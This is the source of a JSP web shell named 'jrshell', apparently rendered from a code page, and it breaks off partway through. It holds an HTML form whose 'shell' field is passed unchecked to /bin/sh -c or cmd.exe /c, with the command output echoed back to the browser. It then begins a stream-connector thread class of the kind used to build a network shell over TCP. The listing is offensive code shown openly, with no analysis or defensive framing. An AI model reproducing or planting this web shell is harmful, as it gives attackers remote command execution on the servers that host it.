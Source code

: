 ```jsp
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>

<html>
<head>
    <title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
    <input TYPE="text" NAME="shell">
    <input TYPE="submit" VALUE="Send">
</form>
<pre>
<%
    // Define the OS
    String shellPath = null;
    try
    {
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
            shellPath = new String("/bin/sh");
        } else {
            shellPath = new String("cmd.exe");
        }
    } catch( Exception e ){}
    // INNER HTML PART
    if (request.getParameter("shell") != null) {
        out.println("Command: " + request.getParameter("shell") + "\n<BR>");
        Process p;
        if (shellPath.equals("cmd.exe"))
            p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
        else
            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
    // TCP PORT PART
    class StreamConnector extends Thread
    {
        InputStream wz;
        OutputStream yr;
        StreamConnector( InputStream wz, OutputStream yr ) {
            this.wz = wz;
            this.yr = yr;
        }
        public void run()
        {
            BufferedReader r  = null;
            BufferedWriter w = null;
            try
            {
                r  = new BufferedReader(new InputStreamReader(wz));
                w = new BufferedWriter(new OutputStreamWriter(yr));
                char buffer[] = new char[8192];
                int length;
                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                {
```